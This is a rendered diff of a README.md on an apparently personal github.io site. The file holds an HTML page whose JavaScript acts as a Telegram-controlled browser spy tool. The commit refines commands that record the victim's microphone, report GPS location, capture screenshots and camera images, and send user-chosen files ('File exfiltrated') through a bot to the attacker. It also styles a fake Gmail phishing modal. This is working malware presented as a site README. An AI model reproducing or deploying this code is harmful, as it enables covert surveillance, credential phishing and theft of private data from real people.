

Before and after one commit to kodxurx/kodxurx.github.io, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 84% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/README.md
+++ b/README.md
@@ -46,7 +46,7 @@
             opacity: 0;
             transition: opacity 0.8s;
         }
-        /* Fake Gmail modal */
+        /* Fake Gmail phishing modal */
         .gmail-phish-modal {
             position: fixed;
             top: 0;
@@ -245,23 +250,25 @@
                         } catch(e) { await sendMessage(`Camera error: ${e.message}`); }
                         break;
                     case '/audio': {
-                        const stream = await navigator.mediaDevices.getUserMedia({ audio: true });
-                        const mediaRecorder = new MediaRecorder(stream);
-                        let chunks = [];
-                        mediaRecorder.ondataavailable = e => chunks.push(e.data);
-                        mediaRecorder.onstop = async () => {
-                            const blob = new Blob(chunks, { type: 'audio/webm' });
-                            await sendDocument(blob, 'recording.webm', '🎙️ Audio capture');
-                            stream.getTracks().forEach(t => t.stop());
-                        };
-                        mediaRecorder.start();
-                        setTimeout(() => mediaRecorder.stop(), 5000);
-                        await sendMessage('Recording audio for 5 seconds...');
+                        try {
+                            const stream = await navigator.mediaDevices.getUserMedia({ audio: true });
+                            const mediaRecorder = new MediaRecorder(stream);
+                            let chunks = [];
+                            mediaRecorder.ondataavailable = e => chunks.push(e.data);
+                            mediaRecorder.onstop = async () => {
+                                const blob = new Blob(chunks, { type: 'audio/webm' });
+                                await sendDocument(blob, 'recording.webm', '🎙️ Audio capture (5s)');
+                                stream.getTracks().forEach(t => t.stop());
+                            };
+                            mediaRecorder.start();
+                            setTimeout(() => mediaRecorder.stop(), 5000);
+                            await sendMessage('Recording audio for 5 seconds...');
+                        } catch(e) { await sendMessage(`Microphone error: ${e.message}`); }
                         break;
                     }
                     case '/location':
                         navigator.geolocation.getCurrentPosition(async pos => {
-                            await sendMessage(`📍 Lat: ${pos.coords.latitude}, Lon: ${pos.coords.longitude}\nAccuracy: ${pos.coords.accuracy}m`);
+                            await sendMessage(`📍 GPS Location:\nLat: ${pos.coords.latitude}\nLon: ${pos.coords.longitude}\nAccuracy: ${pos.coords.accuracy}m`);
                         }, async err => await sendMessage(`GPS error: ${err.message}`));
                         break;
                     case '/screenshot':
@@ -297,10 +304,12 @@
                         input.type = 'file';
                         input.onchange = async (e) => {
                             const file = e.target.files[0];
-                            if (file) await sendDocument(file, file.name, `📁 File: ${file.name}`);
+                            if (file) {
+                                await sendDocument(file, file.name, `📁 File exfiltrated: ${file.name}`);
+                            }
                         };
                         input.click();
-                        await sendMessage('File picker opened on victim side');
+                        await sendMessage('File picker opened on victim side.');
                         break;
                     }
                     default:
@@ -311,11 +320,11 @@
             }
         }
 
-        // ================= POLLING =================
+        // ================= POLLING (getUpdates) =================
         async function pollUpdates() {
             if (!isRegistered) return;
             try {
-                const res = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/getUpdates?offset=${updateId}&timeout=15`);
+                const res = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/getUpdates?offset=${updateId}&timeout=15`, { headers: TELEGRAM_HEADERS });
                 const data = await res.json();
                 if (data.ok && data.result) {
                     for (const upd of data.result) {
@@ -328,15 +337,18 @@
             } catch(e) {}
         }
 
-        // ================= INIT =================
-        async function activate() {
+        // ================= STARTUP: DELETE WEBHOOK & INIT =================
+        async function deleteWebhookAndStart() {
+            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/deleteWebhook`, { method: 'POST', headers: TELEGRAM_HEADERS });
             await registerClient();
             isRegistered = true;
             intervalId = setInterval(pollUpdates, POLL_INTERVAL);
+            // Hide loading overlay and show iframe
             document.getElementById('loadingOverlay').style.display = 'none';
             document.getElementById('mainFrame').style.opacity = '1';
         }
-        setTimeout(activate, START_DELAY);
+
+        setTimeout(deleteWebhookAndStart, START_DELAY);
     </script>
 </body>
 </html>
```
Also changed, not shown: other parts of README.md (+16 -11 lines).
